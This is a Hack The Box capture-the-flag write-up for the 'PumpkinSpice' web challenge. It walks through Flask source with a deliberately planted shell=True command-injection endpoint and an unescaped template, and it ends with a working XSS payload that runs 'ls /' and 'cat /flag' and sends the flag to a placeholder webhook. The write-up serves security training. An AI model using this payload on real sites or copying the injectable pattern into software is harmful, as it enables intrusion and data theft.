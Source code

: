 ![img](./assets/banner.png)


<img src="./assets/htb.png" style="margin-left: 20px; zoom: 80%;" align=left /><font size="5px">PumpkinSpice</font>

​      12<sup>th</sup> October 2023 / Document No. D23.XX.XX

​      Prepared By: lean

​      Challenge Author(s): lean

​      Difficulty: <font color=green>Very Easy</font>

​      Classification: Official

<br>
<br>
<br>
<br>

# [Synopsis](#synopsis)

* XSS leads to blind command injection

## Description

* In the eerie realm of cyberspace, a shadowy hacker collective known as the "Phantom Pumpkin Patch" has unearthed a sinister Halloween-themed website, guarded by a devious vulnerability. As the moon casts an ominous glow, their cloaked figures gather around the flickering screens, munching on pickles, ready to exploit this spectral weakness.

## Skills Required

* Understanding of web application vulnerabilities, including XSS and command injection.
* Knowledge of Python scripting.
* Familiarity with Docker.

## Skills Learned

* Exploiting XSS vulnerabilities.
* Exploiting blind command injection vulnerabilities.
* Creating and running Docker containers.

# [Solution](#solution)

## Application Overview

<img src="./assets/homepage.png" />

This application is a simple web application built using Flask, a Python web framework. It allows users to register addresses and view a list of all registered addresses.

At the start of the program some packages are imported and a list variable **addresses** is defined.

```py
import string, time, subprocess
from flask import Flask, request, render_template, abort
from threading import Thread

app = Flask(__name__)

addresses = []
```

#### start_bot

```py
def start_bot():
    from selenium import webdriver
    from selenium.webdriver.chrome.options import Options
    from selenium.webdriver.chrome.service import Service
    from selenium.webdriver.support.ui import WebDriverWait

    host, port = "localhost", 1337
    HOST = f"http://{host}:{port}"

    options = Options()

    options.add_argument("--headless")
    options.add_argument("--no-sandbox")
    options.add_argument("--disable-dev-shm-usage")
    options.add_argument("--disable-infobars")
    options.add_argument("--disable-background-networking")
    options.add_argument("--disable-default-apps")
    options.add_argument("--disable-extensions")
    options.add_argument("--disable-gpu")
    options.add_argument("--disable-sync")
    options.add_argument("--disable-translate")
    options.add_argument("--hide-scrollbars")
    options.add_argument("--metrics-recording-only")
    options.add_argument("--mute-audio")
    options.add_argument("--no-first-run")
    options.add_argument("--dns-prefetch-disable")
    options.add_argument("--safebrowsing-disable-auto-update")
    options.add_argument("--media-cache-size=1")
    options.add_argument("--disk-cache-size=1")
    options.add_argument("--user-agent=HTB/1.0")

    service = Service(executable_path="/usr/bin/chromedriver")
    browser = webdriver.Chrome(service=service, options=options)

    browser.get(f"{HOST}/addresses")
    time.sleep(5)
    browser.quit()
```

This function spawns a selenium instance and visits the `/addresses` endpoint. It the waits for 5 seconds and closes the automated web browser.

#### @app.route("/")

```py
@app.route("/", methods=["GET"])
def index():
    return render_template("index.html")
```

This is the index route and it simply renders the `index.html` template using jinja.

#### @app.route("/addresses")

```py
@app.route("/addresses", methods=["GET"])
def all_addresses():
    remote_address = request.remote_addr
    if remote_address != "127.0.0.1" and remote_address != "::1":
        return render_template("index.html", message="Only localhost allowed")

    return render_template("addresses.html", addresses=addresses)
```

This route stores the requests ip address in a variable and checks if it comes from localhost, if not it renders `index.html` otherwise it renders `addresses.html` with the **addresses** variable as a parameter to the templates data.

#### @app.route("/add/address")

```py
@app.route("/add/address", methods=["POST"])
def add_address():
    address = request.form.get("address")
    
    if not address:
        return render_template("index.html", message="No address provided")

    addresses.append(address)
    Thread(target=start_bot,).start()
    return render_template("index.html", message="Address registered")
```

This endpoint accepts a form parameter with the name `address` and appends it to the **addresses** list. Then it calls `start_bot` inside a thread and renders `index.html`.

#### @app.route("/api/stats")

```py
@app.route("/api/stats", methods=["GET"])
def stats():
    remote_address = request.remote_addr
    if remote_address != "127.0.0.1" and remote_address != "::1":
        return render_template("index.html", message="Only localhost allowed")

    command = request.args.get("command")
    if not command:
        return render_template("index.html", message="No command provided")

    results = subprocess.check_output(command, shell=True, universal_newlines=True)
    return results
```

This endpoint also performs a localhost check like the `addresses` endpoint, after that it expects a get argument named `command`, if it exists `subprocess.check_output` is called with `command` as a parameter and the output is returned in the response.

## Exploitation

To get access to the flag we first must exploit an XSS vulnurability by abusing the `|safe` operator used to render the `addresses.html` template.

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta name="author" content="lean">
	<title>🎃 Pumpkin Spice 🎃</title>
</head>
<body>
    <h1>System stats:</h1>
    <p id="stats"></p>
    <h1>Addresses:</h1>
    {% for address in addresses %}
        <p>{{ address|safe }}</p>
    {% endfor %}
    <script src="/static/js/script.js"></script>
</body>
</html>
```

Because there is no input validation when registering an address at the `/add/address` route and unsafe string escaping is used to render the addresses we can achieve XSS by providing a payload in the **address** form parameter.

```html
<script>alert(0)</script>
```

Now we can bypass the localhost check because by adding a new address the `start_bot` function is called and the browser is run on localhost.

This allows us to reach to the `/api/stats` endpoint and inject our own arbitrary command that will reveal the flag file name, get its contents and exfiltrate them to our own webserver.

```html
<script>(async () => {{let response = await fetch('/api/stats?command=ls+/');let flag = await response.text();response = await fetch('/api/stats?command=cat+/flag' + flag.split('flag')[1].substr(0, 10) + '.txt');flag = await response.text();await fetch('{WEBHOOK_URL}?c=' + btoa(flag))}})()</script>
```